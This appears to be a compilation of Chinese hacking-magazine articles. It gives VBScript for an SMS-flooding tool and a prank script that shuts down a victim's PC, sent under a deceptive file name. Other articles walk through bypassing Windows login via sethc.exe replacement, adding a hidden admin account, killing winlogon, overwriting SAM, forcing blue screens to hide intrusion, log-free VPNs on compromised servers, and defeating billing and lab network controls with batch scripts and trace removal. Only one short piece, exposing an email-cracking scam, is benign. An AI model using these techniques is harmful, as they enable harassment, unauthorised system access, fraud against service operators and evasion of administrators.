啥都不说了，随便找一图铃网站，填上手机号码（号码是我乱填的哦，免得到时候你们骚扰我，囧），抓包，如图 3、图 4。

粗看一下报文，提交使用的是 GET 方法，参数是在 URL 中传递的。为了方便把电话号码连接成完整的 URL，我们把 `m=15877484444` 放到 URL 的最后，去掉手机号码 `15877484444`，并且把 HOST 与 URL 拼接后得到 URL 如下：

```text
www.u8u.com/mSend/2/show.aspx?f=42040&fn=冲动的惩罚&mt=002001015&page=zt&a=144775&b=0&c=899&d=119&e=0&s=&m=
```

程序利用的是接收一个手机号码的参数 `phone`，通过 `URL="http://"&URL&phone` 即可组成完整的 URL。如果提交方法采用的是 POST，那么参数将在消息体中传递。为了完整，同样把电话号码放到最后。

还有一点，GET 方法因为没有 body，消息头没有 Content-Length，所以 body=""，不指定 Content-Length。POST 方法则必须计算好 body 的长度，并且指定 Content-Length。

基于以上几种规则，我写了一段丑陋的 GET、POST 方法通用的发包函数，在相应的地方也进行了注释，代码如下：

```vb
Function xmlhttp(phone,url,body,Referer,method,Cookie,time)
    Dim Http
    Set Http = Server.CreateObject("msxml2.serverXMLHTTP")
    ' 可以添加更多的 cross-browser 支持
    if method="GET" then   ' GET 方法手机号码拼接在 URL 的后面，消息体为空
        url="http://"&url&phone
        body=""
    end if
    if method="POST" then   ' 与手机号码拼接成完整消息体
        url="http://"&url
        body=body&phone
    end if
    for i=1 to time   ' 控制该网站发几次
        Http.open method,url,false
        ' 指定一些消息头
        Http.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)"
        Http.setRequestHeader "Referer", Referer
        Http.setRequestHeader "Cookie", Cookie
        if method="POST" then   ' POST 方法才会有 Content-Length
            Http.setRequestHeader "Content-Length", Len(body)
            Http.setRequestHeader "CONTENT-TYPE", "application/x-www-form-urlencoded"
        end if
        Http.send body
    next
    Set Http = Nothing
    response.write(time&"条已发送<br>")
end function
```

接下来的工作就是收集能够发验证码短信的网址并存入数据库，我们来抓包提取。

- 提交方法 method、提交地址 URL、相关参数 Referer、Cookie，还有该网址短时间内单个 IP 最多能发短信条数的 time。

接着对每一组数据调用一次 xmlhttp 函数，我只示范性地利用上面已抓包的那个网站。将报文中的相应数据按照把电话号码键放于最后的原则直接赋值给各变量，接着传入 xmlhttp，代码如下：

```vb
method="GET"
URL="www.u8u.com/mSend/2/show.aspx?f=42040&fn=冲动的惩罚&mt=002001015&page=zt&a=144775&b=0&c=899&d=119&e=0&s=&m="
Referer="http://www.u8u.com/mSend/2/?f=51988&a=144775&b=0&c=899&e=0&d=119&page=zt"
Cookie="ASP.NET_SessionId=rct2hiu55o5pmjbqxnytiei55"
time=3
body=""
XMLHTTP phone,url,body,Referer,method,Cookie,time
```

我把自己的手机号传进去后开始发送，马上就有几条短信发过来了，如图 5。添加可用网址的模块这里我就不写了，XMLHTTP 中文乱码的问题我也不去解决了，想要实现一次发 N 条垃圾短信的读者可以尝试着自己去完成吧，可不要眼高手低光看不练哦！学习技术最容易犯的毛病是每一样东西好像都了解了一些，但是却什么都做不了。

以上代码在 IE7 及 Opera Mobile 8.65 及 Opera mini 4.2

## 将QQ恶搞进行到底

飘首：

不知从什么时候起，人工智能开始越来越被人们所关注了。之前的电脑还只是跟人下下棋，可前不久据说一个日本的牛人给自己做了一个机器人老婆，会陪你聊天，做简单的家务，还放出了几张照片。但有网友说了：那不是日本的充气娃娃嘛？小编笑死……不过据说这方面的研究已经取得不少成果了，也许终结者的故事要上演了，有空儿就到后院多挖几条地道吧。

图 郝安山

### 恶搞一

记得前几期的时候，有人发过一个类似的软件，当时也让小菜我爽了许久，后来就不满足于那个软件单一的功能了。于是乎，千搜万灌虽辛苦，终于找到疯狂的 QQ v1.0。

首先介绍一下使用条件：自己的 QQ 是 QQ2008 正式版就 OK。至于接收者，即使是 QQ2000 也无所谓！疯狂 QQ v1.0 可以满足 4 种恶搞方式：狂发视频、狂发语音、狂发抖动、狂发信息。

这款软件的操作是非常简单的，只要打开好友聊天窗口，设置好软件点“开始”就 OK！提醒大家一下，玩笑别开过了，数字后面可是毫秒……看我打开仅几秒钟，滚动条变成什么了！如图 1。

### 恶搞二

这个软件也是很绝的，叫 **QQ2008 无限上下线骚扰器**。顾名思义就是不停上下线的工具，它的使用也非常简单，将其放在 QQ 旁边，点击“运行”就 OK 了。此时你好友那边的 QQ 就显示你不停地上线和下线，如果你设置了炫铃，这可就……呵呵，如图 2。

### 恶搞三

你想不想自己的好友主动向你说“我是猪”啊？我们造他个东西，他就不得不主动说了，那就是 QQ 整人使人关机的文件，代码如下：

```vb
on error resume next
dim WSHshellA
set WSHshellA = wscript.createobject("wscript.shell")
WSHshellA.run "cmd.exe /c shutdown -r -t 60 -c \"说我是猪，不说我捏猪就一分钟关你机，不信，试试···\"",0,true
dim a
do while(a <> "我是猪")
a = inputbox("说我是猪，就不关机，快说；说‘我是猪！’‘说不说！’不说！", "8000,7000")
msgbox chr(13) + chr(13) + chr(13) + a,0,"MsgBox"
loop
msgbox chr(13) + chr(13) + chr(13) + "早说就行了嘛"
dim WSHshell
set WSHshell = wscript.createobject("wscript.shell")
WSHshell.run "cmd.exe /c shutdown -a",0,true
msgbox chr(13) + chr(13) + chr(13) + "哈哈哈哈，真过瘾"
```

把上面的文字复制到记事本内，另存为文件，名字随便，你记住后面的后缀一定要是 `.vbe`。

使用文件传送发送给朋友，只要朋友一打开，一分钟后就会关机，如果他说了那三个字自然就不会关机了。这里的关键就是起个好名字，让他接受并打开。记得我同学给我的时候，起的是“二中帅哥”，我也没顾看后面的后缀……

好了，我把这些恶毒的小玩意儿扔给大家，一定要送给好友啊，祝大家恶搞愉快。最后强调一下，适可而止，特别是第一个！

疯狂的 QQ v1.0 下载地址：
http://bbs.it86.com/job.php?action=download&pid=tpc&tid=5262289&aid=231920

QQ2008 无限上下线骚扰器下载地址：
http://www2.139.xdowns.com/uploadFile/2008-8/%CE%DE%CF%DE%C9%CF%CF%C2%CF%C2%CF%C2%C9%A7%C8%8C5%C6%F7.rar

> **编辑点评：**
> 对于恶搞嘛，搞怪的东西有很多，只是大家不要玩得太过火就好。

## 一招彻底干掉 QQ 安全中心

■古典娃娃

从本文您可以学到：

在 Vista 下如何彻底干掉 QQ 安全中心

这几天使用彩虹，QQ 安全中心老提示有非法外挂，如图1，不卸载就关掉了 QQ，如图2，真的好郁闷，好无语。现在腾讯越来越自私了，珊瑚虫被它干掉了，现在连彩虹也不放过，我们这些穷用户哪有钱去使用它那些收费垃圾啊。现在就用我的方法来干掉所谓的 QQ 安全中心，可能过一段时间后我连 QQ 都不想用了……


图1 提示有非法外挂


图2 无法启动 QQ


图3 选择“属性”——“安全”


图4 这里点击“是”


图5 修改完成1


图6 修改完成2


图7 无法修复安全中心了

对于解决这个问题，网上的方法是删掉 TSVIChs.DAT，然后建立一个假的同名文件。但是 TSVIChs.DAT 的同文件夹下还有一个 QQ 医生组件更新程序 SelfUpdate.exe，也就是说，安全中心可以自动更新的话，它就可以修复这个问题。

新版本的安全中心在：`C:\Program Files\Tencent\QQ\SafeBase`，老的在 QQ 医生相关的文件夹中：`C:\Program Files\Tencent\QQ\QQDoctor`。

我这里为 Vista 系统，XP、2003 就更简单了。右击“SafeBase”文件夹，选择“属性”——“安全”，如图3。再依次选择“高级”——“编辑”——去掉“包括可从该对象的父项继承的权限”选项框中的勾，在弹出来的对话框中选择“复制”，最后“确定”返回到“安全”，进入“编辑”。把里面的用户和组都删除，点击“确定”，弹出“您拒绝了所有用户访问 SafeBase。没有人能访问 SafeBase，而且只有所有者才能更改权限。”，点击“是”，如图4。

修改完成如图5、图6，这样就算 QQ 再怎么升级都无法修复安全中心了，如图7。但是为了保证 QQ 的安全，我建议大家安装彩虹显 IP－360 安全版：`http://download.caihongqq.com/360CaiHong_V2.71_Setup.exe`，使用 360 保险箱来保护 QQ 账号的安全。

如果硬盘分区不是 NTFS 格式的话，文件夹属性就没有“安全”这项，需要用命令：`convert C: /fs:ntfs` 把 QQ 所在的硬盘分区转为 NTFS 格式，这里假设为 C 盘。

> 编辑点评：
>
> 这个方法和我们以前接触过的干掉安全中心、QQ 广告、QQ 宠物等东西原理类似，都是替换文件或使文件无法访问。但具体的操作过程在 Vista 下还是有点区别的，通过本文，你也可以利用同样的办法干掉其它你不想要的东西哦。

## 小菜来揭穿骗子的面纱

□ 侠名

目前网上有许多自称是“黑客”的组织承接破解邮箱业务，他们说破解之后进入你要破解的邮箱给你发一封邮件，等你确认无误后付款，最后他们把密码发给你。

小菜我一直很纳闷：破解邮箱大部分应该是暴力破解，而现在基本上所有的邮箱服务提供商都设置了登录失败次数或 IP 地址限制来防止暴力破解，因此暴力破解成功的可能性非常小。

为了探究竟，小菜我申请了一个网易通行证，然后发给他们提供的邮箱中，说我要破解这个邮箱。没过几天我就收到一封邮件，是他们发来的，说是密码已经破解出来了，他们正在用我要破解的邮箱给我写信，要我确认之后付款。还警告我说，如果三天内不付款，他们就要把我想要破解对方密码的事告诉对方，包括我的联系方式，还请我谅解，如图1！


我心想他们速度也太快了吧，我申请的时候故意将密码设置得相当复杂，于是我决定进邮箱去看一下，结果却发现了戏剧性的一幕：原来我只是申请了网易通行证，而邮箱还没有开通呢，如图2！（某编狂笑中……呵呵）


我再去看那封确认邮件，发件人的确是我那个还没有开通的邮箱（图1中我标出的地方）！看到这里大家一定都明白是怎么回事了吧？他们其实并没有去破解邮箱，而是使用伪造的邮件地址给你发了一封邮件。如果你相信了给他们汇了钱，那你就上当了。

**编辑点评：**

没什么好说的，骗子的花样层出不穷，防不胜防，但只要你自己留心，踏踏实实地做自己的事，不要相信天上会掉馅饼，也不要相信能抢到别人的馅饼，再厉害的骗子也拿你没办法。

> 原点官语：
> 过年了，有多少人会有时间和闲情来享受这闲暇的时光呢？估计会有好多人还在为工作而奔波呢。那么你呢？正在拿着“黑手”看文章的你呢？是不是觉得有些疲倦了？是不是觉得文章看得太多而没有了新意？
>
> 其实不然，我遇到好多人都有这样的感觉。如果你认真地看一下以前的文章或者图书资料，你会发现，第二遍的阅读感受和第一次完全不同！以前觉得很一般的文章，再看时或许你就会有新的想法，而那些第一次看不懂的文章，再看时说不定你也可以看出其中的道理了。生活需要耐心，其实学习也是这样的。

## 多种方法绕过 Windows 登录验证

□ 菜客

**从本文你可以学到：**

多种绕过 Windows 登录验证的方法

对于单机用户，Windows 密码存在的意义不大，如果忘记密码可以 ghost 还原。假如 C 盘中存放着重要数据，那还可以再挂一个操作系统进行数据提取。同样，你身边的人也可以用这种方法恶意盗取你计算机里的信息。不过要是想隐蔽地利用 3389 进入系统，那你就要用到本文的知识了。

### 一、应急篇

如果是单机用户的应急需求，最方便的方法当然是用工具啦！这样的工具有很多，基本上每个系统启动盘里都有个密码清除工具，本人感觉小傻人的这个工具箱里的密码清除工具就比较好用，可以清除不同用户的密码，大家可以一试。

### 二、粘滞键篇

用工具只是应急，不符合当代菜鸟的追求精神，我们应该知道一些技术方法的原理。有一种经常使用的方法，就是使用粘滞键，杂志上曾经介绍过 utilman 粘滞键，但不知道为什么，我在替换了该文件后却总是启动失败，这里还是介绍最常用的 sethc.exe 粘滞键。

它存在于 system32 下，名字一般是 sethc.exe，在未登录状态下连续按5次“Shift”键即可启动，用 cmd.exe 替换该文件就可以在未登录时以 system 权限启动 cmd 命令行。因为 sethc 是受到 Windows 保护的文件，所以替换起来比较麻烦，小菜我通过观察不同的 Windows（XP/2003）的文件保护，总结出以下几条经验：

- 1. 对于大多数系统而言，system32 下都有一个 dllcache 文件夹，所有受系统保护的文件都在里面有个备份，当发现系统文件被异常删除或替换后，Windows 就会用该文件夹下的备份文件去还原。当然，如果连备份文件都一起替换了，就可以打破这种保护，但是操作速度必须要快，否则文件保护会比你先一步完成。

```text
Del C:\Windows\system32\sethc.exe
Del C:\Windows\system32\dllcache\sethc.exe
Copy C:\Windows\system32\cmd.exe C:\Windows\system32\sethc.exe
```

- 2. 另外，有少数不少的系统没有 dllcache 目录，但不代表没有文件保护。有些系统在 Windows 目录下会有一个 `\ServicePackFiles\i386` 子目录，里面同样有备份的系统文件，要想成功地替换仍然需要批处理，代码参考上面，把地址路径修改一下即可。

- 3. 还有一种情况比较少见，既没有 dllcache 目录，也没有 i386 目录，例如我从网上下载的一个“番茄花园 Windows XP for Vista SP2 美化版”，简单研究了一下，发现根本没有文件保护。也许是番茄花园做的美化需要替换或修改一些系统文件，为了防止 Windows 还原，干脆把文件保护功能废掉了。是不是这样需要具体考证，而这样缺乏安全保护的系统大家还是少用为好。

- 4. 微软还推出过一个精简版的 XP，叫做 Windows FLP，安装完后只有不到 500M，十分节省系统资源，适合老电脑和小型笔记本使用。说得精简，其实就是只保留最基本的功能，像这种 XP 是没有文件保护功能的，当然也没有粘滞键。

- 5. 另外，也许还有其它的情况，希望大家补充。

好了，现在我们在 Windows 未登录时启动命令行，下面说几种方法。

#### 方法一：用 net 命令修改密码或者添加管理员用户

既然有了 cmd，那添加个用户还是易如反掌的！搞 3389 的朋友会经常用到这种方法，具体命令行如下：

```text
net user hack 123 /add
net localgroup administrators hack /add
```

以上是添加一个名为 hack、密码为 123 的用户。如果你对上面的 net 指令还很陌生的话，那就得好好补补了，不过也不用自卑，大家都是从小菜水平一路走来的。

我在不同的 Win 系统中试验该方法，发现多数可以顺利执行 net 命令，但是有些系统只能执行一条 net 命令，成功执行后登录界面立刻卡死，要想执行第二条需要结束进程 logonui，在 cmd 中执行 `ntsd -c q -p logonui.exe`。

这个进程在正常状态下是没有的，它只存在于待登录状态下，作用是提供一个登录界面。既然只是界面卡死，那么结束它不会影响系统，只是原本美丽的登录界面变成了经典的登录对话框而已。

#### 方法二：粘滞键开启“上帝模式”

有个神奇的脚本叫做“上帝之门”，该程序在 cmd 下被执行，当以参数“on”运行时，系统可以用任意密码登录；当用参数“off”运行时，系统又回到正常。

我们叫出 cmd 粘滞键后，如果电脑上没有“上帝之门”，可以事先放到 U 盘里，但是在待登录状态下很多设置及驱动都没有加载，即使插上 U 盘系统也识别不出。

不用怕，在 cmd 下输入 explorer，这里启动的不只是进程 explorer.exe，更重要的是系统在加载 explorer 之前会加载必要的个人设置，加载完毕会看到开始菜单和任务栏，如图1。

这样就可以识别 U 盘了，用 cd 命令切换到“上帝之门” NTGodMode.exe 的存放目录，用参数 on 运行它，就可以以任意密码登录系统了（如果是 3389 做的远程连接，调用 ftp 命令去下载一个应该是可行的），如图2。


#### 方法三：绕过登录直接进入系统

大家都知道进程 Winlogon 的作用之一是管理用户登录，是 Windows 里相当重要的进程，直接结束它会蓝屏，必须先结束进程 smss 才能结束它。没有了 Winlogon 的系统不论启动什么都是 system 权限，也就是最高的权限，这也给大家提权带来一个思路，可见 Winlogon 在 Windows 中的地位。

还必须注意一点，没有了进程 Winlogon 的系统是无法从系统层面关机或注销的，就是开始菜单里面的关机和注销选项都不起作用，即使是 cmd 下调用 shutdown 也无法起作用。要想关机得按住关机键 3—5 秒钟才行。

那么在未登录状态下结束 Winlogon 进程会不会直接进入系统呢？我们来实验下。按5下 Shift 叫出 cmd 粘滞键，本想用系统自带的 ntsd 结束 smss 和 winlogon，可是 ntsd 只能结束 smss，却不能结束 winlogon，如图3。


不知道为什么会这样，还望高手指正。不过这也阻挡不了小菜的破解之路，我们可以选择第三方工具来结束进程，这里我选择 gmer，它是一款优秀的手杀工具，只是用来结束进程真是“高射炮打蚊子”，大家有兴趣可以研究下 gmer 堪称无敌的安全模式。


选择 gmer 的原因很简单，因为它可以在这特殊的环境下运行。把 gmer 放在 U 盘里，运行 explorer 加载个人设置，系统成功识别 U 盘，用 cmd 运行 gmer，依次结束 smss 和 Winlogon，如图4。

这时发现登录界面突然消失，呈现在眼前的是桌面图标和完整的任务栏，只是桌面成了个黑色，任务栏也变成了经典的灰白色，但这丝毫不影响正常的使用，虽然会提示“一个输入法进程 ctfmon 初始化错误”，但还是可以正常输入中文的。

同样，如果是 3389，可以 ftp 一个 gmer。因为不能关机和注销，而且桌面变成了黑色，所以用这种方法比较容易被管理员发现。比较稳妥的方法是在完成一切操作后，用 gmer 结束一个系统关键进程强制蓝屏，这样虽然有点损，但至少不会被发现。

### 三、再谈 sam 欺骗

大牛 28 度的冰曾经提出过 SAM 欺骗这一个概念，简单地说就是 Windows 密码与注册表中的 sam 项有着密不可分的联系，甚至可以通过备份 sam 项来备份 Windows 密码。

其实 Windows 密码不止和 sam 项有关，还和一个大名鼎鼎的文件紧密相联，那就是位于 `system32\config` 下的名为 **SAM** 的文件。这个文件相当重要，在 Windows 2000 下删除此文件可以不需要任何密码就能进入系统，但要是放在 XP/2003 下，没有此文件便进不了系统。我试了一下，非但进不了系统，而且会没完没了地重启。

在 XP 下备份此文件同样可以备份密码，我也把这种现象称为 sam 欺骗，“28 度的冰”在其相关文章中也涉及到了这种思路，可惜作者忽略了冰刃的一种使用方法，导致没有对 sam 文件进行欺骗，下面我就来弥补这种遗憾。

我们重新在虚拟机里安装一个 XP 系统，起初没有任何密码，我用冰刃将 `C:\Windows\system32\config\sam` 复制出来，并重命名为 sam0。这里只能使用冰刃复制，直接复制会出错，当然也可以先用另外一个操作系统进行复制，那样太麻烦。

现在我们给系统随便设置一个密码，这时 sam 文件便会因此而改变。我们打开冰刃，复制一下文件 sam0，在弹出对话框中目标路径就选择为 `C:\Windows\system32\config\`，命名为 sam，这时会提示是否强行覆盖？对！没错，就是要强行覆盖！而且会成功覆盖，不会蓝屏。

这就是“28 度的冰”所忽略的一点，试一下密码，又回到了最初的空密码状态。这与覆盖 sam 项达到了相同的目的，只是使用了工具。至此，SAM 欺骗成功。

值得一提的是，我用上述方法在我电脑上用本机的 sam 文件替换虚拟机里的（我电脑上的用户名是 admin，密码 631，虚拟机的用户名 kezi，密码为空），发现用户名变成了 admin，而且“kezi 的文档”消失了，取而代之的是“admin 的文档”。密码也改变了，但既不是 631 也不是空，希望高手能够解答这个费解的问题。

另外，用我电脑上的 sam 文件替换虚拟机里的，却出现了 lsass 提示错误。lsass 进程是一个管理安全机制和登录策略的进程，难道它识别出了当前存在的 sam 文件不是自己的？可见，即使同样是 XP，sam 文件也是有区别的，也许是因为我电脑上的 XP 和虚拟机里的 XP 是从不同的 XP 盘安装的。


图5

sam 欺骗就讲到这里了，但是 sam 文件和注册表中的 SAM 项有什么关系呢？密码到底存放在哪里呢？这是一个值得研究的问题，我在研究时发现：当用 net user 修改密码的时候，net 脚本只修改一处注册表，就是 `HKLM\SOFTWARE\Microsoft\Cryptography\RNG\Seed` 的值，这个值是一连串的 16 进制数。而且修改一次密码，net 脚本要连续修改两次该处的键值。更神奇的是，即使同一系统相同的用户名和密码，该处键值也会不同！我肯定是忽略了什么，而且 sam 文件的改变也有规律，如图5。

图5 是我对三个从同一系统上提取的不同密码状态下的 sam 文件的比较，txt 文件中只显示不同的地方，可见只有特定地址处的值才会改变。由于本人水平实在有限，也只能给大家提供这么点信息了，有兴趣有能力的朋友可以继续研究。

> [文中所涉及的工具已收录于本期光盘]

## 编辑点评：

作为一种技术研究，本文的方法研究得比较全面，但如果作为一种实际上的入侵的话，那么除了利用 sethc.exe 外，其它的方法都不太好。文中的疑问还是比较多的，各位看到这里有何感想？呵呵，大家继续研究试试……

## VPN 的简单配置

【冰的原点 [I.S.7]】

从本文你可以学到：

- 如何配置 VPN

经常看“黑手”的朋友一般会在“西线无战事”这个栏目里看到 VPN 这个字眼，呵呵，而且经常会看到一些朋友说“为了安全，先跳一次 VPN 吧”，那么什么是 VPN 呢？

VPN 的全称为 Virtual Private Network，直译过来就是“虚拟专用网络”。虽然虚拟专用网络实际上可以把已经物理绑成的企业内部专线虚拟出来，它可以通过特殊的加密通信协议，在连接在 Internet 上的位于不同地方的两个或多个企业内部网之间建立一条专有的通信线路，就好比是架设了一条专线一样。

这种方式并不需要真正地去铺设光缆之类的物理线路，黑客可以依靠一个 VPN 的账号就能通过拨号上去进行攻击，使自己不会暴露。

玩黑的朋友通常在拿到一台 3389 的服务器后有时也不知道做什么，其实做一个 VPN 是很有用处的。接下来就教大家一个简单配置 VPN 的例子，做 VPN 之前，首先要把服务器上自带的防火墙关掉，并且服务设为禁用。


图1

这里我以 Windows 2003 给大家演示说明，先打打开“我的电脑”→“程序”→“管理工具”→“路由和远程访问”，会出现如图1所示的画面。

在本机名的图标上右键点击，如图2所示，选择“配置并启用路由和远程访问”。在出现的提示中单击“下一步”，来到如图3所示的画面。

这里一般选择“自定义配置”，继续“下一步”，然后选择“VPN 访问”，如图4所示。

继续“下一步”，最后单击“完成”就完成了初步的配置了。如果成功的话，会弹出如图5所示的对话框，这里点击“是”。

接下来再来到如图1所示的画面中，还是单击图中的“TEST-**”这一字符串，右键选择“属性”，然后选择“日志”标签页中的“不记录任何事件”（当然是小心一些比较好嘛），如图6所示。

然后选择“IP”标签项下的“静态地址池”，点击“添加”，在出现的框中的起始 IP 和结束 IP 里分别填入 192.168.1.1 和 192.168.1.10，如图7所示。

“确定”后再来到“IP 路由选择”下的“静态路由”，单击右键，选择“新建静态路由”。这里配置好了我们连上去就可以上网了，所以在第二栏里的“网关”处要填上服务器上的外网的网关，大家可以在 CMD 下输入 IPCONFIG /ALL 查看。其它的“目标”和“网络掩码”都可以填上 0，如图8所示。

最后要做的就是给相应的用户开放访问权限，在相应用户的属性里让其允许访问即可，如图9所示。

这样，我们选择 VPN 即可，如图10、图11所示。

这里是重要的两点，其它的就不多说了。现在我们已经配置好了一个 VPN，当然，实际上操作起来可能会有各种各样的问题，如果大家怕麻烦，还可以到网上搜索免费的 VPN。据我所知，免费的 VPN 也不少，当然了，速度和质量就要视情况而定了。好了，就到这里吧，大家自己慢慢练习。

> **编辑点评：**
> 如果文章中提到的知识各位有所不懂，或者实践时碰到什么问题了，百度和 GOOGLE 应该可以帮大家解决。

## 金盘电子阅览室管理系统 v7.0.8 版之免费上网

从本文你可以学到：

破解的思路以及批处理的简单应用

### 一、开篇

这是我第一次投稿，作为菜鸟的我心里是又紧张又兴奋，这真是一种非常奇妙的感觉，甚至令人无法表达。紧张归紧张，兴奋归兴奋，就不说废话了，现在进入主题。

金盘电子阅览室管理系统是学校中使用比较多的管理软件，也是比较不错的计费管理软件，最近又推出了新的版本 v7.0.8。作为菜鸟的我们，本来身上的银子就不多，自然要想到免费上网了。这个版本与以前的版本是有些不同的，以前的方法已经不管用了，欲知这个新版本如何免费上网，请看下面详细的讲解。

### 二、破解过程

#### 方法一

步骤一：

首先要说的是我这里的金盘电子阅览室管理系统用的是 v7.0.8 版本（是比较新的），在任务管理器中可以看到 cligold.exe 进程，这就是金盘电子阅览室管理系统的进程，此时我们使用冰刃（使用别的工具也行，如：特锐网吧辅助工具、360 安全卫士等）结束此进程，今晚惊奇的是系统重启了。

后来我又仔细地查看了任务管理器，原来在金盘电子阅览室管理系统运行时，会有两个进程同时运行，一个是 client.exe，另一个是 cligold.exe，其中 client.exe 就是 cligold.exe 的守护进程（这就是双进程相互守护），因此我们需要同时结束它们两个。

我们可以使用冰刃同时结束这两个进程，这样虽然我们卡里的钱仍然在消耗，但当我们卡里的钱消耗光时不会被强制下机，上网依然正常，这就达到了免费上网的目的。

步骤二：同方法二中的步骤五，到此方法一结束。

#### 方法二

方法一虽然可以上网，但治标不治本，我们能否免费呢？答案是肯定的，我们需要用到 pstools2.33 或 pstools2.15（pstools2.44 这个版本不行）和一个 U 盘（U 盘中装入下面写好的四个批处理程序和一个改成文件名为 1 的 pstools 文件）。

步骤一：我们要写四个批处理程序，分别命名为 x.bat、y.bat、z.bat 和 m.bat（x、y、z、m 是我起的文件名，依个人习惯而定）。

```bat
x.bat 的内容是：
at time /interactive c:\y.bat
at time /interactive c:\z.bat
```

```bat
y.bat 的内容是：
c:\1\pskill -t cligold.exe
c:\1\pskill -t client.exe
c:\y.bat
```

```bat
z.bat 的内容是：
c:\1\pskill -t cligold.exe
c:\1\pskill -t client.exe
c:\z.bat
```

```bat
m.bat 的内容是：
ntsd -c q -pn explorer.exe
start explorer.exe
```

步骤二：检查任务计划服务是否开启，若没有开启我们就自己开启此服务（如何开启此服务见下面特别提示的第 2 点）。

步骤三：使用冰刃或特锐网吧辅助工具、360 安全卫士等分别结束 smss.exe 和 winlogon.exe 的进程，一定要注意次序，先结束 smss.exe 进程，之后再结束 winlogon.exe 进程。

步骤四：把 pstools 文件改名为 1，然后把 1 这个文件及 x.bat、y.bat、z.bat 和 m.bat 四个批处理程序从 U 盘中复制到 C 盘中，这时看一下任务栏右下角时间，把 x.bat 文件中的 time 改为比当前时间快一、两分钟（比如当前时间是 10:44，time 就改为 10:46），然后双击运行 x.bat，最后再正常退出金盘电子阅览室管理系统。

这时你要做的就是等上一、两分钟（平时的一、两分钟很快就能过去，但这时的时间我们感觉就非常难熬），过一会我们不用输入用户名和密码就可以直接进入系统了。但这时的系统和刚才有些不同，不同的地方就是机器没有任务栏了，并且有两个 cmd 窗口，如图1。

这时我们首先用鼠标关掉这两个 cmd 窗口，然后再运行 m.bat 这个批处理程序，这样就大功告成了，桌面又回来了。

步骤五：当我们在成功免费上网时，任务栏右下角的金盘电子阅览室管理系统的小图标已经不见了，这也许会给我们带来一些不必要的麻烦，所以要进行伪装。我们可以使用金盘伪装者（goldcheater）v1.0，双击运行它，然后再按 Ctrl+F12 组合键进行隐藏，这时任务栏右下角的图标又出现了，这样可以达到瞒天过海的目的，现在我们就尽情地上网吧。

### 三、特别提示

- 1. 上面用到的程序内容必须是和我写的形式一致，即必须换行（如 y.bat 和 z.bat 内容必须是三行，x.bat 和 m.bat 的内容必须是两行），否则达不到我们预期的目的。
- 2. 有的机房的机器没有开启任务计划服务（任务计划服务对应的是 at 命令），我们可以自己开启，方法是在“我的电脑”上按鼠标右键，依次选择“管理”->“服务和应用程序”->“服务”->“Task Scheduler”，然后再按右键选择“启动”，这样我们就开启了任务计划服务（这个服务不开启也不会达到我们预期的目的）。
- 3. 记住一定要擦掉我们为免费上网而留下的痕迹，即删除 1 文件和 x.bat、y.bat、z.bat 和 m.bat 这四个批处理程序。

### 四、破解中遇到的疑惑及感受

以上就是金盘电子阅览室管理系统 v7.0.8 版免费上网的过程，对于大部分的机器是完全可行的（经过多次测试），但是对于极个别几台机器会存在这样一种现象，就是当我们一切都做好后，除了不能上网以外，本地的其它操作都可以进行，这使我很是费解，还望大侠、高于们能够解决。

全文没什么技术含量，只是些常见的方法及批处理的应用，但我们能够从这样的破解中锻炼自己，提高自己，慢慢积累经验，这是非常有利于我们成长的。

> 【文章中涉及到的批处理及相关工具已收录于本期光盘】

**编辑点评：** 因为现在大多数的软件都有守护进程，没想到作者提到的冰刃竟然有同时结束进程的功能，这个功能估计也可以用来对付病毒。还有作者提到的那三个特别提示，其实都是一些基本知识，不过忽略了可是行不通的。还有一点就是作者开头写的那段话，不管你是不是菜鸟都可以向我们杂志投稿，只要是你新奇的想法，别具一格的好点子，都可以写出来与大家分享，我们是欢迎的！

## 巧用网络小命令突破上网封锁

图 光芒果

**从本文你可以学到：**
利用命令来配置网络

大家好，我是光芒果，很久没有写文章了，今天我要跟大家谈谈怎么巧用网络小命令来突破上网的封锁，以及一些网络小命令的应用。

前段时间在我们学校机房上实验课，原来只需要把机房的网络改为自动获取就可以上外网了，可是后来被老师发现，于是通过注册几个 DLL 把网络设置的功能给禁用了，现在对已有连接点右键选择“属性”后完全没有反应。

本来我们只需要把这几个 DLL 注册回去就可以了，但重新注册这几个 DLL 后需要重启才能生效，而一重启机器就会被硬件还原卡给还原，难道上个外网都要去破解硬件还原卡么？其实不必那么麻烦，我们用一个网络命令 NETSH 完全就可以解决这个问题。

我们先来了解下 NETSH 这个命令：

> Netsh 是本地或远程计算机的 Windows 2000 网络组件的命令行和脚本实用程序。为了存储或配置其它服务器，Netsh 实用程序也可以将配置脚本保存在文本文件中；Netsh 实用程序是一个外壳，它通过附加的“Netsh”帮助 DLL 提供用来监视或配置特定 Windows 2000 网络组件的功能。众所周知，“Netsh”帮助 DLL 都为特定的网络组件提供了一个环境和一组命令，每个环境中都可以有子环境，例如：在路由环境中存在子环境 IP 和 IPX，它们将 IP 路由和 IPX 路由命令集中在一起。

Netsh 命令行选项包括下列各项：

```text
用法: netsh [-a AliasFile] [-c Context] [-r RemoteMachine] [Command] [-f ScriptFile]
```

关于这个命令的详细用法，我这里就不多说了，下面来看看怎么用 NETSH 命令解决机房网络封锁的问题。

其实，上面提到的网络封锁只需要把连接设置为自动获取就可以突破了，只不过这里禁止了对网络连接的管理，我们完全可以使用命令行来解决这个问题，对应的网络命令如下：

```text
netsh interface ip set address name="本地连接" source=dhcp
netsh interface ip set dns name="本地连接" source=dhcp
```

注意上面命令行引号中的“本地连接”，这要和你实际机器里的连接名称相对应。如果你的连接名称为“本地连接 2”，那么你命令里的名称也要相应地改成“本地连接 2”。

上面的语句第一条的意思是设置本地连接的 IP 为 DHCP 自动获取，第二条的意思是设置 DNS 的 IP 为自动获取。我们只需要在命令提示行里面执行上两条语句，机房的网络封锁就可以突破了。当然，我们也可以把上面两条语句放到一个批处理文件里一起执行。

这里用 NETSH 命令突破网络封锁是一个很特殊的例子，其实在其它地方我们还可以用这个命令来干更多的事情。比如在许多网吧中，一般会有一个 VIP 专区，这个 VIP 专区中除了机器更好，网速更快外，收费也会更高。这种“高质量”的上网条件一般是通过在路由器中对这个网段的机器放宽限速，或者是另外拉一条线实现的（当然这个情况比较少，即使有也是会和普通区的机器相连通的，只是用的不同网关而已）。

